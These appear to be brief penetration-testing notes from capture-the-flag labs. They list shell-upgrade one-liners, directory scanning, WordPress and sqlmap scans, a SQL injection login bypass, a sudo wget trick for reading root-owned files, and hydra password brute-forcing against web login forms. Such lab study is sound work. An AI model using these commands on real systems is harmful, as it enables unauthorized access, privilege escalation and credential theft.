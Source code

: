 ### upgrading shells

https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

/bin/sh -i
```

gobuster dir --url https://10.129.240.189 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

using wget to reveal the text as /root/root

sudo wget --input-file /root/root.txt

https://gtfobins.github.io/

wpscan --url https://brainfuck.htb --disable-tls-checks

https://rumkin.com/tools/cipher/ for ciphers

`sqlmap -r login.req`

sqlinjection try: `admin'-- -`

Using Hydra

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
```

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect"

```
